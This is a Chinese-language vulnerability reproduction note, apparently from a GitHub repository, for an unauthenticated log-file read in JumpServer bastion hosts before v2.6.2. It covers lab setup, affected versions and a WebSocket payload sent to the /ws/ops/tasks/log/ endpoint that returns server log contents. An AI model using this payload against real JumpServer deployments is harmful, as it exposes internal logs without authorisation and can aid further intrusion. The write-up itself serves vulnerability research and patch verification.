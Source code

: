 # 0x00 软件介绍
JumpServer：一款在中国流行的开源堡垒机

# 0x01 复现环境
复现环境：本地环境 centos7 x64  
复现版本：JumpServer v2.6.1  
环境搭建：  
1、使用官方提供的v2.6.1的quick_start.sh安装后，竟然后v2.6.2，这个坑真是无语了，使用知识星球师傅提供的安装脚本，安装后是v2.6.1（这个安装脚本执行后可能会报错，多试几次）  
2、执行quick_start.sh后，一路默认即可  
3、安装完成后需要切换到/opt/jumpserver-installer-v2.6.1/下执行jmsctl.sh，直接使用绝对路径会报错  
4、需要开启iptables，否则报错  
5、重新安装2.6.1后，本地能访问，远程不能访问，无奈再次重新安装centos7以及JumpServer v2.6.1

# 0x02 利用条件
无

# 0x03 影响版本
JumpServer < v2.6.2  
JumpServer < v2.5.4  
JumpServer < v2.4.5

# 0x04 漏洞复现
攻击环境：kali x64  
chrome下安装扩展：https://chrome.google.com/webstore/detail/websocket-test-client/fgponpodhbmadfljofbimhhlengambbn/related  
使用如下payload：  
```
ws://192.168.1.73:8080/ws/ops/tasks/log/
{"task":"/opt/jumpserver/logs/jumpserver"}
```
如下图，红色圈出的部分即为读取到的远程服务器上的日志内容  
![image](./a1.png)

如下图，红色圈出的部分即为服务器上的日志内容  
![image](./a0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://articles.zsxq.com/id_5raonmuwqrru.html  
https://mp.weixin.qq.com/s?__biz=MzI5ODk3OTM1Ng==&mid=2247497420&idx=1&sn=49b6179b24a4275f016a80b16ba401aa&chksm=ec9f2fbfdbe8a6a9318f7ba90eaca911692ae24f72591225efb19eab4852cf8e893936ee2a06&mpshare=1&scene=1&srcid=01183gic1iE9CgPOeU1ZKNoQ&sharer_sharetime=1610978241607&sharer_shareid=39e4b7efe0bb5b2e5770f3a926f3062d&exportkey=AUvxarwZSXcAl0lXgRSI%2F2o%3D&pass_ticket=rI5WvWxPWj9wFDSMj42xLhizShWaMpx4MwP7SFhDHLUZpJ0zrnUrOlEEfOlgFO8t&wx_header=0#rd
